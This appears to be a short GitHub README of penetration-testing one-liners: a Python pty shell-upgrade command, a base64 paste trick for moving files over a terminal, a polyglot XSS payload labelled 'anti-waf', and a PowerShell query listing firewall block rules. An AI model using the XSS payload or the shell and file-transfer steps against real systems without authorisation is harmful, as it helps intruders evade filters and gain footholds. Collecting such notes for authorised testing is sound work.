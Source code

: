 # oneliners
Collection of handy one line things 

### ye olde pty 
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Upload not one line
```
cat archive.tar.gz | base64
cat <<EOF | base64 -d > archive.tar.gz
///// paste here the base64 encoded file
EOF
```
## pentest 

### anti-waf
```
javascript:"/*'/*`/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
```
### blocked ports 
```
$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
```
